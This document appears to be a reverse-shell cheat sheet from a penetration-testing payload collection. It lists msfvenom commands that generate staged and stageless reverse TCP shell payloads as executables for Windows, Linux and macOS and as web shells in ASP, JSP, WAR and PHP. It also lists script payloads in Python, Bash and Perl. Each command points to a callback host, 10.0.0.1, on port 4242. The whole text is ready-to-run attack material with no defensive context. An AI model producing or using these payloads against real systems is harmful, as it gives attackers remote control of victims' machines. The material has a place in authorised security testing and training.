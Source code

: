 ### Windows Staged reverse TCP

	msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

### Windows Stageless reverse TCP

	msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

### Linux Staged reverse TCP

	msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

### Linux Stageless reverse TCP

	msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

### Other platforms

	$ msfvenom -p linux/x86/shell/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
	
	$ msfvenom -p windows/shell/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
	
	$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
	
	$ msfvenom -p windows/shell/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
	
	$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
	
	$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
	
	$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
	
	$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
	
	$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
	
	$ msfvenom -p php/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php